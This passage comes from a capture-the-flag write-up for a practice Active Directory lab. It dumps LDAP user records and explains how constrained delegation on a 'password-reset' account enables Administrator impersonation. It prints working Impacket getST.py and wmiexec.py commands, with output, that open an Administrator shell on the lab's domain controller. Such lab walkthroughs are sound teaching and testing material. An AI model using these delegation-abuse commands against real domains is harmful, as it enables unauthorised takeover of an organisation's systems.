useraccountcontrol:    NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
badpwdcount:           0
codepage:              0
countrycode:           0
badpasswordtime:       1601-01-01 00:00:00+00:00
lastlogoff:            1601-01-01 00:00:00+00:00
lastlogon:             1601-01-01 00:00:00+00:00
pwdlastset:            2021-06-08 05:18:02.001358+00:00
primarygroupid:        513
objectsid:             S-1-5-21-2062199590-3607821280-2073525473-1125
accountexpires:        9999-12-31 23:59:59.999999+00:00
logoncount:            0
samaccountname:        yumeko
samaccounttype:        USER_OBJECT
userprincipalname:     yumeko@COOCTUS.CORP
objectcategory:        CN=Person,CN=Schema,CN=Configuration,DC=COOCTUS,DC=CORP
dscorepropagationdata: 2021-06-08 19:14:53+00:00, 2021-06-08 18:59:42+00:00, 2021-06-08 05:35:40+00:00, 
                       2021-06-08 05:33:03+00:00, 1601-07-14 22:36:49+00:00

objectclass:           top, person, organizationalPerson, user
cn:                    cryillic
givenname:             cryillic
distinguishedname:     CN=cryillic,OU=Marketing,OU=Staff,OU=Employees,DC=COOCTUS,DC=CORP
instancetype:          4
whencreated:           2021-06-08 05:17:41+00:00
whenchanged:           2021-06-08 05:17:41+00:00
displayname:           cryillic
usncreated:            53300
memberof:              CN=File Server Access,CN=Builtin,DC=COOCTUS,DC=CORP, CN=East Coast,CN=Builtin,DC=COOCTUS,DC=CORP, 
                       CN=VPN Access,CN=Builtin,DC=COOCTUS,DC=CORP
usnchanged:            53306
name:                  cryillic
objectguid:            {4c50c725-771f-46db-a866-792f72b28d68}
useraccountcontrol:    NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
badpwdcount:           0
codepage:              0
countrycode:           0
badpasswordtime:       1601-01-01 00:00:00+00:00
lastlogoff:            1601-01-01 00:00:00+00:00
lastlogon:             1601-01-01 00:00:00+00:00
pwdlastset:            2021-06-08 05:17:41.030838+00:00
primarygroupid:        513
objectsid:             S-1-5-21-2062199590-3607821280-2073525473-1124
accountexpires:        9999-12-31 23:59:59.999999+00:00
logoncount:            0
samaccountname:        cryillic
samaccounttype:        USER_OBJECT
userprincipalname:     cryillic@COOCTUS.CORP
objectcategory:        CN=Person,CN=Schema,CN=Configuration,DC=COOCTUS,DC=CORP
dscorepropagationdata: 2021-06-08 19:14:53+00:00, 2021-06-08 18:59:42+00:00, 2021-06-08 05:35:40+00:00, 
                       2021-06-08 05:33:03+00:00, 1601-07-14 22:36:49+00:00

objectclass:           top, person, organizationalPerson, user
cn:                    karen
givenname:             karen
distinguishedname:     CN=karen,OU=HR,OU=Staff,OU=Employees,DC=COOCTUS,DC=CORP
instancetype:          4
whencreated:           2021-06-08 05:17:27+00:00
whenchanged:           2021-06-08 05:17:27+00:00
displayname:           karen
usncreated:            53292
memberof:              CN=East Coast,CN=Builtin,DC=COOCTUS,DC=CORP, CN=VPN Access,CN=Builtin,DC=COOCTUS,DC=CORP
usnchanged:            53298
name:                  karen
objectguid:            {8efb707a-26bc-4852-a598-63a4baed0cf2}
useraccountcontrol:    NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
badpwdcount:           27
codepage:              0
countrycode:           0
badpasswordtime:       2024-04-10 22:48:25.696827+00:00
lastlogoff:            1601-01-01 00:00:00+00:00
lastlogon:             1601-01-01 00:00:00+00:00
pwdlastset:            2021-06-08 05:17:27.624601+00:00
primarygroupid:        513
objectsid:             S-1-5-21-2062199590-3607821280-2073525473-1123
accountexpires:        9999-12-31 23:59:59.999999+00:00
logoncount:            0
samaccountname:        karen
samaccounttype:        USER_OBJECT
userprincipalname:     karen@COOCTUS.CORP
objectcategory:        CN=Person,CN=Schema,CN=Configuration,DC=COOCTUS,DC=CORP
dscorepropagationdata: 2021-06-08 19:14:53+00:00, 2021-06-08 18:59:42+00:00, 2021-06-08 05:35:40+00:00, 
                       2021-06-08 05:33:03+00:00, 1601-07-14 22:36:49+00:00

objectclass:           top, person, organizationalPerson, user
cn:                    Fawaz
givenname:             Fawaz
distinguishedname:     CN=Fawaz,OU=Helpdesk,OU=Staff,OU=Employees,DC=COOCTUS,DC=CORP
instancetype:          4
whencreated:           2021-06-08 05:17:05+00:00
whenchanged:           2024-04-10 23:15:37+00:00
displayname:           Fawaz
usncreated:            53283
memberof:              CN=File Server Admins,CN=Builtin,DC=COOCTUS,DC=CORP, 
                       CN=File Server Access,CN=Builtin,DC=COOCTUS,DC=CORP, CN=West Coast,CN=Builtin,DC=COOCTUS,DC=CORP, 
                       CN=Restrict DC Login,CN=Builtin,DC=COOCTUS,DC=CORP, CN=Server Users,CN=Builtin,DC=COOCTUS,DC=CORP, 
                       CN=VPN Access,CN=Builtin,DC=COOCTUS,DC=CORP, CN=PC-Joiner,CN=Builtin,DC=COOCTUS,DC=CORP, 
                       CN=RDP-Users,CN=Builtin,DC=COOCTUS,DC=CORP
usnchanged:            98680
name:                  Fawaz
objectguid:            {5b05f181-10cf-41c6-8887-cc093411ab2a}
useraccountcontrol:    NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
badpwdcount:           0
codepage:              0
countrycode:           0
badpasswordtime:       2024-04-10 22:48:24.431208+00:00
lastlogoff:            1601-01-01 00:00:00+00:00
lastlogon:             2024-04-10 23:15:37.794300+00:00
logonhours:            ffffffffffffffffffffffffffffffffffffffffff...
pwdlastset:            2024-04-10 23:12:09.953352+00:00
primarygroupid:        513
objectsid:             S-1-5-21-2062199590-3607821280-2073525473-1122
accountexpires:        1601-01-01 00:00:00+00:00
logoncount:            6
samaccountname:        Fawaz
samaccounttype:        USER_OBJECT
userprincipalname:     Fawaz@COOCTUS.CORP
objectcategory:        CN=Person,CN=Schema,CN=Configuration,DC=COOCTUS,DC=CORP
dscorepropagationdata: 2021-06-08 19:14:53+00:00, 2021-06-08 18:59:42+00:00, 2021-06-08 05:35:40+00:00, 
                       2021-06-08 05:33:03+00:00, 1601-07-14 22:36:49+00:00
lastlogontimestamp:    2024-04-10 23:15:37.794300+00:00

objectclass:           top, person, organizationalPerson, user
cn:                    Cooctus Guest
sn:                    Guest
givenname:             Cooctus
distinguishedname:     CN=Cooctus Guest,OU=Service-Accounts,DC=COOCTUS,DC=CORP
instancetype:          4
whencreated:           2021-06-08 01:05:24+00:00
whenchanged:           2024-04-10 22:50:33+00:00
displayname:           Cooctus Guest
usncreated:            20578
usnchanged:            98669
name:                  Cooctus Guest
objectguid:            {55c5f234-e3de-4f5c-9fb4-188710fa929e}
useraccountcontrol:    NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
badpwdcount:           0
codepage:              0
countrycode:           0
badpasswordtime:       2024-04-10 22:48:25.071829+00:00
lastlogoff:            1601-01-01 00:00:00+00:00
lastlogon:             2024-04-10 23:00:43.108770+00:00
logonhours:            ffffffffffffffffffffffffffffffffffffffffff...
pwdlastset:            2021-06-08 22:00:31.275190+00:00
primarygroupid:        513
objectsid:             S-1-5-21-2062199590-3607821280-2073525473-1109
accountexpires:        1601-01-01 00:00:00+00:00
logoncount:            3
samaccountname:        Visitor
samaccounttype:        USER_OBJECT
userprincipalname:     Visitor@COOCTUS.CORP
objectcategory:        CN=Person,CN=Schema,CN=Configuration,DC=COOCTUS,DC=CORP
dscorepropagationdata: 2021-06-08 19:14:53+00:00, 2021-06-08 18:59:42+00:00, 2021-06-08 05:35:40+00:00, 
                       2021-06-08 05:33:03+00:00, 1601-07-14 22:36:49+00:00
lastlogontimestamp:    2024-04-10 22:50:33.788153+00:00

objectclass:                   top, person, organizationalPerson, user
cn:                            krbtgt
description:                   Key Distribution Center Service Account
distinguishedname:             CN=krbtgt,CN=Users,DC=COOCTUS,DC=CORP
instancetype:                  4
whencreated:                   2021-06-08 00:35:08+00:00
whenchanged:                   2021-06-08 01:01:51+00:00
usncreated:                    12324
memberof:                      CN=Denied RODC Password Replication Group,CN=Users,DC=COOCTUS,DC=CORP
usnchanged:                    20562
showinadvancedviewonly:        True
name:                          krbtgt
objectguid:                    {d14aa7c9-3757-4c1e-8fc5-fd3072ad92d6}
useraccountcontrol:            ACCOUNTDISABLE, NORMAL_ACCOUNT
badpwdcount:                   0
codepage:                      0
countrycode:                   0
badpasswordtime:               1601-01-01 00:00:00+00:00
lastlogoff:                    1601-01-01 00:00:00+00:00
lastlogon:                     1601-01-01 00:00:00+00:00
pwdlastset:                    2021-06-08 00:35:08.593107+00:00
primarygroupid:                513
objectsid:                     S-1-5-21-2062199590-3607821280-2073525473-502
admincount:                    1
accountexpires:                9999-12-31 23:59:59.999999+00:00
logoncount:                    0
samaccountname:                krbtgt
samaccounttype:                USER_OBJECT
serviceprincipalname:          kadmin/changepw
objectcategory:                CN=Person,CN=Schema,CN=Configuration,DC=COOCTUS,DC=CORP
iscriticalsystemobject:        True
dscorepropagationdata:         2021-06-08 19:14:53+00:00, 2021-06-08 18:59:42+00:00, 2021-06-08 05:35:40+00:00, 
                               2021-06-08 05:33:03+00:00, 1601-01-01 00:00:00+00:00
msds-supportedencryptiontypes: 0

objectclass:            top, person, organizationalPerson, user
cn:                     Guest
description:            Built-in account for guest access to the computer/domain
distinguishedname:      CN=Guest,CN=Users,DC=COOCTUS,DC=CORP
instancetype:           4
whencreated:            2021-06-08 00:34:38+00:00
whenchanged:            2021-06-08 00:34:38+00:00
usncreated:             8197
memberof:               CN=Guests,CN=Builtin,DC=COOCTUS,DC=CORP
usnchanged:             8197
name:                   Guest
objectguid:             {a59d7917-60b3-42e6-ad71-f2433a210354}
useraccountcontrol:     ACCOUNTDISABLE, PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
badpwdcount:            0
codepage:               0
countrycode:            0
badpasswordtime:        1601-01-01 00:00:00+00:00
lastlogoff:             1601-01-01 00:00:00+00:00
lastlogon:              1601-01-01 00:00:00+00:00
pwdlastset:             1601-01-01 00:00:00+00:00
primarygroupid:         514
objectsid:              S-1-5-21-2062199590-3607821280-2073525473-501
accountexpires:         9999-12-31 23:59:59.999999+00:00
logoncount:             0
samaccountname:         Guest
samaccounttype:         USER_OBJECT
objectcategory:         CN=Person,CN=Schema,CN=Configuration,DC=COOCTUS,DC=CORP
iscriticalsystemobject: True
dscorepropagationdata:  2021-06-08 19:14:53+00:00, 2021-06-08 18:59:42+00:00, 2021-06-08 05:35:40+00:00, 
                        2021-06-08 05:33:03+00:00, 1601-07-14 22:36:49+00:00

objectclass:            top, person, organizationalPerson, user
cn:                     Administrator
description:            Built-in account for administering the computer/domain
distinguishedname:      CN=Administrator,CN=Users,DC=COOCTUS,DC=CORP
instancetype:           4
whencreated:            2021-06-08 00:34:38+00:00
whenchanged:            2021-07-04 16:06:25+00:00
usncreated:             8196
memberof:               CN=RDP-Users,CN=Builtin,DC=COOCTUS,DC=CORP, 
                        CN=Group Policy Creator Owners,CN=Users,DC=COOCTUS,DC=CORP, 
                        CN=Domain Admins,CN=Users,DC=COOCTUS,DC=CORP, CN=Enterprise Admins,CN=Users,DC=COOCTUS,DC=CORP, 
                        CN=Schema Admins,CN=Users,DC=COOCTUS,DC=CORP, CN=Administrators,CN=Builtin,DC=COOCTUS,DC=CORP
usnchanged:             90155
name:                   Administrator
objectguid:             {923161fa-065e-4170-9ab7-1607ba6c16a8}
useraccountcontrol:     NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
badpwdcount:            18
codepage:               0
countrycode:            0
badpasswordtime:        2024-04-10 22:48:20.618708+00:00
lastlogoff:             1601-01-01 00:00:00+00:00
lastlogon:              2021-07-04 16:28:52.805027+00:00
logonhours:             ffffffffffffffffffffffffffffffffffffffffff...
pwdlastset:             2021-06-08 22:00:25.494268+00:00
primarygroupid:         513
objectsid:              S-1-5-21-2062199590-3607821280-2073525473-500
admincount:             1
accountexpires:         1601-01-01 00:00:00+00:00
logoncount:             30
samaccountname:         Administrator
samaccounttype:         USER_OBJECT
objectcategory:         CN=Person,CN=Schema,CN=Configuration,DC=COOCTUS,DC=CORP
iscriticalsystemobject: True
dscorepropagationdata:  2021-06-08 19:14:53+00:00, 2021-06-08 18:59:42+00:00, 2021-06-08 05:35:40+00:00, 
                        2021-06-08 05:33:03+00:00, 1601-01-01 00:00:00+00:00
lastlogontimestamp:     2021-07-04 16:06:25.523764+00:00
```

`TRUSTED_TO_AUTH_FOR_DELEGATION` plus an `msds-allowedtodelegateto` entry means `password-reset` is configured for constrained delegation with protocol transition, which is a very specific and very abusable combination: it lets the account use S4U2self to obtain a ticket *as any user it chooses* (no password needed for that part), then S4U2proxy to turn that into a service ticket for one of the SPNs it's allowed to delegate to. Since `oakley/DC.COOCTUS.CORP` is on that allow-list, and `oakley` here is really just a service alias running on the domain controller itself, that's a direct line to impersonating `Administrator` against the DC. Now knowing this SPN we are able to impersonate the `Administrator`.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew/bloodhound] - [Wed Apr 10, 19:38]
└─[$]> python3 ~/ADTools/impacket/examples/getST.py -k -impersonate Administrator -spn oakley/dc.cooctus.corp COOCTUS.CORP/password-reset
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

Now we can login as `Administrator`.

```bash
─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew/bloodhound] - [Wed Apr 10, 19:39]
└─[$]> export KRB5CCNAME=Administrator.ccache 
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew/bloodhound] - [Wed Apr 10, 19:40]
└─[$]> wmiexec.py -k -no-pass Administrator@HayStack.thm.corp
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew/bloodhound] - [Wed Apr 10, 19:40]
└─[$]> python3 ~/ADTools/impacket/examples/wmiexec.py -k -no-pass Administrator@dc.cooctus.corp
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

That semi-interactive `wmiexec` shell is running as `COOCTUS.CORP\Administrator` on `DC.COOCTUS.CORP`, which is game over for the domain, there's nowhere higher to go from Domain Admin on the DC itself. All that's left is to actually grab the flags.

```console
C:\> type C:\Users\Visitor\user.txt
```

`user.txt` I'd already pulled earlier straight off the `Home` share as `Visitor`, no admin needed for that one. `root.txt` lives on the DC itself:

```console
C:\> cd C:\PerfLogs\Admin
C:\PerfLogs\Admin> type root.txt
```

`type root.txt` returns the flag for this instance.

Looking back at the whole chain, the `kevin` password reset and the MSSQL/File-Server-Admins angle I had in mind when I made that change never actually got used, `password-reset`'s own delegation rights turned out to be a much shorter path straight to the DC. It's a good reminder on a box this size to re-check what a compromised account can do to itself (via `pywerview`/BloodHound) before assuming the intended path is the one you're already halfway down.

[good articles](https://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html)

## References

- Impacket, `getST.py` (S4U2self / S4U2proxy) <https://github.com/fortra/impacket>
- HackTricks, constrained delegation abuse <https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/constrained-delegation>
- Final privilege escalation steps cross-referenced against public writeups for this room.
